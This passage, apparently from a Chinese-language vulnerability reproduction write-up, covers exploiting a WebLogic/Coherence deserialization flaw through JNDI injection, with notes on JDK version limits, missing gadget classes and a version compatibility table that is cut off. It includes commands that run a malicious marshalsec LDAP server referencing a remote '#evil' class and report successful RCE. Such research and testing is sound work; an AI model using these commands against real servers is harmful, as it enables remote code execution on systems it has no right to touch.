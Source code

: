 [![](https://p1.ssl.qhimg.com/t0151286013dbb939b0.png)](https://p1.ssl.qhimg.com/t0151286013dbb939b0.png)

[![](https://p4.ssl.qhimg.com/t01f31f7a1168ce657d.png)](https://p4.ssl.qhimg.com/t01f31f7a1168ce657d.png)

我们在本地使用 marshalsec 搭建恶意 jndi 服务端：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.1.1:8000/#evil 1389
python -m http.server
```

成功 RCE：

[![](https://p1.ssl.qhimg.com/t01dc480552ed03e4e3.png)](https://p1.ssl.qhimg.com/t01dc480552ed03e4e3.png)

## jndi 版本问题

在Oracle JDK 11.0.1、8u191、7u201、6u211之后 com.sun.jndi.ldap.object.trustURLCodebase 属性的默认值被设置为false，所以此 ldap + jndi 导致 RCE 的方法失效。

## &lt;a name=”10.3.6.0 问题” class=”reference-link”&gt;10.3.6.0 问题

在使用基于 `TopNAggregator.PartialResult` 的 poc 对官网说的版本进行复现的时候，发现 10.3.6.0.0 版本中并不存在 `com.tangosol.util.SortedBag` 和 `com.tangosol.util.aggregator.TopNAggregator` 这两个类：

[![](https://p2.ssl.qhimg.com/t01426ea04d08d3a391.png)](https://p2.ssl.qhimg.com/t01426ea04d08d3a391.png)

缺少 `SortedBag`：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t015341f2a05449288f.png)

缺少 `TopNAggregator` ：

[![](https://p3.ssl.qhimg.com/t012dd12b5cd58d2554.png)](https://p3.ssl.qhimg.com/t012dd12b5cd58d2554.png)

## weblogic 版本问题

使用不同 weblogic 版本的 jar 包对不同版本的 weblogic 进行测试，经过测试研究发现以下情况：

<th style="text-align: center;">jar 版本</th><th style="text-align: center;">weblogic 版本</th><th style="text-align: center;">成功情况</th>
|------
<td style="text-align: center;">12.1.3.0.0</td><td style="text-align: center;">12.1.3.0.0</td><td style="text-align: center;">成功</td>
<td style="text-align: center;">12.1.3.0.0</td><td style="text-align: center;">12.2.1.3.0</td><td style="text-align: center;">失败</td>
<td style="text-align: center;">12.1.3.0.0</td><td style="text-align: center;">12.2.1.4.0</td><td style="text-align: center;">失败</td>
<td style="text-align: center;">12.1.3.0.0</td><td style="text-align: center;">14.1.1.0.0</td><td style="text-align: center;">失败</td>
<td style="text-align: center;">12.2.1.3.0</td><td style="text-align: center;">12.1.3.0.0</td><td style="text-align: center;">失败</td>
<td style="text-align: center;">12.2.1.3.0</td><td style="text-align: center;">12.2.1.3.0</td><td style="text-align: center;">成功</td>
<td style="text-align: center;">12.2.1.3.0</td><td style="text-align: center;">12.2.1.4.0</td><td style="text-align: center;">成功</td>
<td style="text-align: center;">12.2.1.3.0</td><td style="text-align: center;">14.1.1.0.0</td><td style="text-align: center;">成功</td>
<td style="text-align: center;">12.2.1.4.0</td><td style="text-align: center;">12.1.3.0.0</td><td style="text-align: center;">失败</td>